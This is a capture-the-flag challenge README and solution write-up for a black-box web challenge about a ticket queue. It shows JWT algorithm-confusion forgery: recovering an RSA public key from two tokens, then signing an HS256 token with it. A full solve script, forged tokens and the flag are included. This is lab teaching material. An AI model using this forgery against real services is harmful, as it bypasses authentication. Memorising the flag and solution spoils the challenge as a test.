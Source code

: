 # A Ticket to Space

#### Category: Web Exploitation

#### Difficulty: Medium

#### Type: Black Box

#### Description: I have always wanted to go to space. Now they offer a program that will allow me to fulfill my dream! But the queue is a little long, and I'm not sure if I'll still be here when my turn arrives...  I wonder if there is a way to bypass the queuing system.

![image](https://github.com/user-attachments/assets/8c2f4250-53d8-463c-be5c-3828a186b3ab)


## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:3000`

## Solution
<details>

<br>

Since the web exploitation is a black box challenge, source code are not provided and it is required for the players to perform analysis themself and figure out the possible vulnerability. Accessing to the website, a webpage will be displayed like this and it should simulate like a ticket queuing system.

<br>

![image](https://github.com/user-attachments/assets/1fd26ac1-3aa4-4dcb-b933-962368016e73)

<br>

When the 'Buy Tickets' button is clicked, an alert message 'Not your turn yet! Please Wait!' will appear as the user is not authorized to access the ticket purchasing site yet.

<br>

![image](https://github.com/user-attachments/assets/f7519d5c-1ae0-45f6-8703-a56137ebbc71)

<br>

To further understand on how does the website checks the user's authorization, inspecting the frontend side should provide some valuable information.

### Frontend Source Code (Javascript)
```javascript
 window.onload = function() {
    if (!localStorage.getItem("jwt")) {
    fetch("/genToken", {
        method: "GET",
        headers: {
        "Content-Type": "application/json"
        }
    })
    .then(res => res.json())
    .then(data => {
        localStorage.setItem("jwt", data.token);
    })
    .catch(err => console.error("Error getting token:", err));
    }
    };
    
    function BuyTicket() {
    const token = localStorage.getItem("jwt");
    if (!token) {
        alert("No token found.");
        return;
    }
    fetch("/buyTicket", {
        method: "GET",
        headers: {
            "Authorization": `Bearer ${token}`
        }
    })
    .then(async (response) => {
        if (!response.ok) {
            const data = await response.json();
            alert(data.message || "Access denied");
            return;
        }
        const html = await response.text();
        document.open();
        document.write(html);
        document.close();
    })
    .catch(error => {
        console.error("Error:", error);
        alert("Something went wrong.");
    });
}
```
<br>

It seems that the website will fetch the `/genToken` to generate a unique Json Web Token (JWT) for each of the user and stored in the localStorage which will be retrieved later on to check the validity of the token in the `/buyTicket`. If the token validity returns invalid, it will deny the user access to the site. Now let's obtain the JWT from the localStorage for further analysis.

<br>

![image](https://github.com/user-attachments/assets/84c96782-0c5c-445b-95a5-6406a12eccb9)

<br>

When decoding the JWT using an online tool such as [jwt.io](https://jwt.io/). We can see that the JWT uses RS256 algortihm to secure their token. It also contain the payload `{"purchasePerm" : false}` which most likely is the mechanism used to check the validility of the token from the backend server. Therefore, changing the boolean of the payload to `{"purchasePerm" : true}` should work right? Unfortunately for RS256 algorithm, modifying the payload without a valid private key will not work because the server will use the public key to decode the token and checks the payload. Modifying the token without private key will cause the token to be not recognizable by the server and result in invalid token.

<br>

![image](https://github.com/user-attachments/assets/e3985a60-d8de-43e7-b2d1-b683c4c95a48)

<br>

Thus, the website may have two potential vulnerabilities which are [JWT Algorithm "None"](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f) or [JWT Algorithm Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion). Let's first explore the algorithm "None" exploit and determine whether it works. We can use jwt.io to switch the algorithm to `none` and forged a token containing a header like `{"alg" : "none" , "type" : "JWT"}` and also change the payload to `{"purchasePerm" : true}`. The forged token will look something like this `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJwdXJjaGFzZVBlcm0iOnRydWUsImV4cCI6MTc0NTE2ODg5OCwiaWF0IjoxNzQ1MTY1Mjk4fQ.`.

<br>

![image](https://github.com/user-attachments/assets/8a690b70-a261-44f6-860d-5eadd8209dff)

<br>

Then, we can replace the token in the localStorage with the forged token and attempt to access the `/buyTicket`. As a result, the algorithm "None" exploit does not work because the server will not accept token with "None" algorithm so it returns 'Token Authentication Failure'. Therefore, the JWT Algorithm "None" is not the solution ❎ and now we only have one possible vulnerability left which is JWT Algorithm Confusion.

<br>

![image](https://github.com/user-attachments/assets/efe7c9ab-7860-4031-bb1b-997b62e70bcc)

<br>

JWT Algorithm Confusion require us to retrieve the public key which will be used as the HMAC shared secret key after changing the algorithm to HS256 in the JWT header. Most of the time server will exposed their public keys in common path like `/jwks.json` , `/known-path/jwks.json`, & `/public.pem`. However, after several attempts on trying to retrieved the exposed public keys through known path has resulted in nothing. We can assume that the server was configured properly to ensure that the public key does not get exposed.

![image](https://github.com/user-attachments/assets/3d0a6bc1-faa1-493b-bbd4-203219c14021)

<br>

Fortunately, there is an interesting method that can be used to retrieved the public keys if they are not exposed. A great tool developed by nu11secur1ty called [rsa_sign2n](https://github.com/nu11secur1ty/rsa_sign2n/blob/main/README.md) can derived the public keys from existing tokens which we need to generated two tokens from the website for the tool to work.

First Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2MzgsImlhdCI6MTc0NTE3NDAzOH0.iTWhbTm90rdNtA10xmwiV0I7S-eD1veCkDgCqbBt5wer6ds1sHJDl5tNZQZcnwfBtYiaMhNG-DqTB7VfTbaYTWJRHNxr6n_UJmXB_XjWBtNkIpGwPHwkJBmebngg-VZuXOvo2NP8wv0TpdF3GRLQENonGFY37l5cYmATtKsNBUlTrvKwp0KLrLpIS8-uufXXkxha5SL6sDmj5z9Mmhwv-At7O0C4ZE8cijfhj48KXWcHk1fQFl1lYVPovqygh3tkJOW2avUO0HehDs6o5YX833aFhOox9kya7DbpPBcW9UEh62_EfFk2L1G1xgZg04vHcTzFYxrX62oaz804FyZHRQ`

After deleting the token and refresh the page will generate another new token.

Second Token: `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJwdXJjaGFzZVBlcm0iOmZhbHNlLCJleHAiOjE3NDUxNzc2NTcsImlhdCI6MTc0NTE3NDA1N30.GMSDZvtmFlYGT8dcpk04rHWx6PDM-4DAuzzSXtuvRLfp9-IlVxuwe2MsjzjBGIFU9NLrBhxMkruqm2HcNrDHVkz-NUVDKWmLRED0_VJ9FGwIEARkkZqS-dHXA56x0QxGpUVWSq43_1u_qFi8ZczYAr_O9iXEDmTnBFl2Xu_zLZ0OYOlhKSEnCiGbWUlju2UH-nflysT_I7ENrUTFp_wixpPNYVxfZWLk16ixarISbOixvMdL5rYbYZmPEwos5Lz0-ix4gxmPcY1J2luLRhhQPdkaqKBwMzpSQjwex6N63gHt7kGk_kVfHr1B0L-CIYPazNBn9W5qQcUUVTbvVbzBlg`

Now we have two tokens ready and we can use the tool after successful installation. The command should be like this `python3 jwt_forgery.py token1 token2`. When the process is completed, it should display the result like the image below.

<br>

![image](https://github.com/user-attachments/assets/c35c26da-238a-402d-aa1a-3f6aa07e5d4f)

<br>

Now we need to get the public keys from the result. The public keys will usually stored in x509.pem format and we can use `cat` command to obtain the contents of the file. We need to copy the following public keys into a newly created file called `public.pem` which will be used for later on.

![image](https://github.com/user-attachments/assets/55931d70-3c22-4b42-b023-11062acd7241)

<br>

Getting the public key is a crucial step for the JWT Algorithm Confusion attack to work. Now we can forge our own token by creating a simple python script. Firstly we need to read the `public.pem` file and strip unwanted contents before using it as the HMAC secret.

```python
with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)
```

Then, we need to modify the algorithm to HS256 like `{"typ" : "JWT", "alg" : "HS256"}` and changing the payload data to `{"purchasePerm" : True}`. Now, we can forge the token containing HS256 algorithm along with public key as the HMAC secret.

```python
payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)
```

Finally, we can send the token to the website using `Authorization: Bearer` to `/buyTicket` endpoint.

```python
response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

#### Full Solve Script (Python)

```python
import jwt
import requests
import base64
import os

with open(os.path.join(os.path.dirname(__file__), 'public.pem'), 'r') as f:
    public_key = f.read()

filter = (
    public_key
    .replace('-----BEGIN PUBLIC KEY-----', '')
    .replace('-----END PUBLIC KEY-----', '')
    .replace('\n', '')
    .strip()
)

hmac_secret = base64.b64decode(filter)

payload = {"purchasePerm": True}
headers = {"typ": "JWT","alg": "HS256"}

forged_token = jwt.encode(payload, hmac_secret, algorithm='HS256', headers=headers)

if isinstance(forged_token, bytes):
    forged_token = forged_token.decode()

print("Forged Token:", forged_token)

response = requests.get("http://localhost:3000/buyTicket",headers={"Authorization": f"Bearer {forged_token}"})

for line in response.iter_lines(decode_unicode=True):
    if 'ICTF25{' in line:
        print(f'Flag:{line}')
```

After executing the script we are able to obtain the flag which indicates that the JWT Algorithm Confusion attack has been successfully demonstrated. 

<br>

![image](https://github.com/user-attachments/assets/2903c906-3926-428e-84f7-0a481c735758)

<br>

![image](https://github.com/user-attachments/assets/e138a6eb-5794-4cdc-8500-7bf19dd4a7db)

<br>

### Flag
>ICTF25{3678087349b1b6d839e019a16d5483621af5b09c7d36fc6df346edd4425e7802}
</details>
